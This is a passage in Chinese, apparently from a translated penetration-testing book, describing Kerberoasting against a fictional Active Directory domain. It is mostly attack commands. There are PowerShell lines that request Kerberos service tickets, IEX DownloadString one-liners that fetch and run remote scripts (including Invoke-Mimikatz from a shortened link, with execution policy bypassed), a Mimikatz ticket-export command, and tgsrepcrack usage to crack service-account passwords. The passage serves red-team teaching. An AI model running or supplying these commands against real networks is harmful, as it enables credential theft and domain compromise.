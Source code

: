 我们可以将单个用户的 SPN 作为目标，也可以将所有用户的 Kerberos 票据拉入用户的内存中：
- 针对单个用户：
  - powershell Add-Type -AssemblyName System.IdentityModel;New-Object
    System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList “HTTP/CSK-GITHUB.cyberspacekittens.local”
- 将所有用户票据拖到内存中
  - powershell Add-Type -AssemblyName System.IdentityModel;IEX (New-Object
    Net.WebClient).DownloadString(“ https://raw.githubusercontent.com/nidem/kerberoast/master/GetUserSPNs.ps1 ”)
    | ForEach-Object {try{New-ObjectSystem.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.ServicePrincipalName}catch{}}
- 当然，你也可以使用 powersploit 执行此操作：
  - https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Kerberoast/

![](img/4-41.png)

如果成功的话，我们已经将一个或多个不同的 Kerberos 票证导入到受害者计算机的内存中。我们现在需要一种方法来提取票据。我们可以使用好工具 Mimikatz Kerberos 导出：
- powershell.exe -exec bypass IEX (New-Object Net.WebClient).DownloadString(‘http://bit.ly/2qx4kuH’); Invoke-Mimikatz -Command ’”““kerberos::list /export”””’

![](img/4-42.png)

一旦我们导出这些票证，它们将仍会驻留在受害者的机器上。在我们开始破解它们之前，我们必须从它们的系统中下载它们。请记住，票据是用服务帐户的 NTLM 哈希加密的。所以，如果我们能猜到 NTLM 哈希，我们就可以读取票据，现在也知道服务帐户的密码。破解账户最简单的方法是使用一个名为 tgsrepcrack 的工具（JTR 和 Hashcat 也支持破解 Kerberoast，稍后我们将讨论）。使用 Kerberoast 破解票证：

- 使用 Kerberoast 来破解票据：
  - cd /opt/kerberoast
  - python tgsrepcrack.py [password wordlist ][kirbi ticketss - *.kirbi]

![](img/4-43.png)

在这个例子中，服务帐户 csk-github 的密码是“p@ssw0rd!”

当然，Empire 有一个 PowerShell 模块为我们做所有需要做的事情。它位于 powershell/credentials/invoke_kerberoast 目录下（ https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1 ）。
